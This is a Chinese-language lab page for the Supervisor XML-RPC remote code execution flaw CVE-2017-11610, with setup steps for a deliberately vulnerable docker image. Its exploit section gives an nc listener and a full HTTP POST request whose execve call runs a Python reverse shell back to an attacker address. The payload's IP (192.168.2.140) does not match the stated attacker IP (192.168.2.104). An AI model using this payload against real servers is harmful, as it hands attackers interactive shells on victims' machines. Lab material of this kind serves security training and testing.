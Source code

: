 ## Supervisor Authenticated Remote Code Execution(CVE-2017-11610)

### 漏洞信息

Supervisor 是用 Python 开发的一套通用的进程管理程序，能将一个普通的命令行进程变为后台 daemon，并监控进程状态，异常退出时能自动重启。Supervisor可通过web接口管理服务，在配置了web接口后，同时会在服务器启动一个 XMLRPC 服务器，端口为 9001。该接口可配置需要密码访问，或者无需认证访问。

在获取该接口的访问权限后，远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码。

### 影响版本

已经确认：

* Supervisor 3.1.2 <= Version <= 3.3.2 

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
http://xxx/9001/RPC2 | vulapps | vulapps

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_supervisor_1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:80 -p 9001:9001 medicean/vulapps:s_supervisor_1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:80 看到 web 界面即启动成功

#### Exp

反弹 Shell

> 假定启动后的环境如下：
>
> 攻击者 IP: 192.168.2.104
> 
> 受害者 IP: 192.168.2.100

1. 在攻击者机器上使用 nc 监听

 ```
 $ nc -lvp 9999
 ```

2. 向受害者 9001 端口发送如下报文后即可

```
POST http://192.168.2.100:9001/RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 638
Host: 192.168.2.100:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.140",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```

---

![](./exp.png)

### 参考链接

* [SSD Advisory – Supervisor Authenticated Remote Code Execution](https://blogs.securiteam.com/index.php/archives/3348)
* [[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)
